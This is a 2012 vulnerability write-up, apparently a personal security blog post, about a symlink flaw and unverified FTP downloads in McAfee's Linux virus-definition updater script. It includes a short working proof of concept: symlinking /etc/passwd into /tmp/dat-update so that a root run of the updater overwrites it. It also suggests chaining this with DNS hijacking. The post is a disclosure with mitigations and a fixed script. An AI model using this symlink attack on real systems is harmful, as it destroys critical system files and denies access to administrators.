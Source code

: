 ```yaml
---
title: McAfee Updater - I just shat on your filesystem
dsecription: McAfee Linux updater vulnerability
date: 2012-12-12
tags: [mcafee]
---
```


This document discusses a vulnerability in McAfee's updater. The download for this, and a KB article discussing it, is found here:
[https://kc.mcafee.com/corporate/index?page=content&id=KB67513](https://kc.mcafee.com/corporate/index?page=content&id=KB67513) 

### Background

It is stated by McAfee:
NOTE: The attached script is only an example of how to automate the update process and is not officially supported by McAfee Technical Support. Please also see KB67821 - DAT files are not removed from the /tmp/dat-update directory for a known issue with respect to this script when using the /sbin/sh shell.
The discussed KB article:
https://kc.mcafee.com/corporate/index?page=content&id=KB67821
How can McAfee actually expect you to operate a virus scanner without a regular update process? Either we accept the product as effectively useless, or we produce a better update process.
UVscan itself has been the subject of an identical symlink bug, for which McAfee released a security fix back in 2008.

https://kc.mcafee.com/corporate/index?page=content&id=KB51216


### Breaking the script down

Upon unzipping, some interesting parts of the script are:

- Insists you set an email address. This implies the script has some sort of alerting capabilities. No. It just uses it to logon to an FTP server as a password.
- Run a "mkdir -p $tmp_dir". $tmp_dir defaults to /tmp/dat-update. Note the -p. If folder already exists - that's OK.
- Now check $tmp_dir exists. Duh.
- Download, from ftp.nai.com, avvdat.ini. McAfee link their own KB articles using SSL, where you have security against DNS hijacks. Why use FTP here?
- A tonne of shell scripting to parse avvdat.ini and get the latest version DAT file out of it, and the DAT file MD5.
- Download a ZIP file of the latest DAT
- Compare the MD5 of the downloaded file with the hash earlier downloaded from the same FTP site
- Unzip our DAT files over the top of our live ones.
- Do some integrity checking. Do nothing but error if there's a problem.

### Issues with this are

The most obvious of the issues is that there is no integrity on the downloaded files. Anyone who can hijack your DNS can setup their own ftp.nai.com, and store on it, an avvdat.ini file that never changes, preventing you from ever getting an update.
 More interestingly, the exercise to the reader is to utilise this, in combination with the below exploit, to overwrite, for example, /etc/passwd. Finally, with nothing stated anywhere, this script is going to end up run as root. This is a dumb enough move that the script itself should force the user to do otherwise.

### Profit

{% highlight bash %}
[Technion@turbonegro ~]$ echo Setting up the bomb
Setting up the bomb
[Technion@turbonegro ~]$ mkdir /tmp/dat-update
[Technion@turbonegro ~]$ ln -s /etc/passwd /tmp/dat-update/avvdat.ini


[root@turbonegro ~]# head -n 1 /etc/passwd
root:x:0:0:root:/root:/bin/bash
[root@turbonegro ~]# /bin/bash ~/uvscan/updater
Mechanism not supported
Mechanism not supported
KERBEROS_V4 rejected as an authentication type
Local directory now /tmp/dat-update
updater: DAT already up to date (6054.0)
[root@turbonegro ~]# head -n 1 /etc/passwd
[AVV-ZIP]
[root@turbonegro ~]# whoami  
whoami: cannot find name for user ID 0
[root@turbonegro ~]# ruh-roh :(
{% endhighlight %}

### Mitigating facts

A secure umask means the above attack would need to be carried out prior to the first update, or after a cleanup by tmpwatch, which runs by default on many distributions. Some distributions and configurations also remove this directory on reboot, or mount it as a tmpfs. In my opinion, although a secure umask should always be in place, a security application such as a virus scanner should not count on it. I also think this is the least serious of the vulnerabilities.

### Recommendations
- Utilise "least privilege" principle on the updater script
- Utilise the alternate script provided. This script contains information on implementing the above requirement.
- Implement an SSL site for downloads, or digitally sign downloads in a way that can be verified prior to installation.

### Fixed Updater

I cannot stress enough this only resolves the symlink issue demonstrated above. It does not solve any issues to do with the fact there is no verification on the source these files are downloaded from. To implement a highly paranoid downloader script, see here: [uvupdater.pl](/assets/downloads/uvupdater.pl). Instructions on its use are contained within its headers.

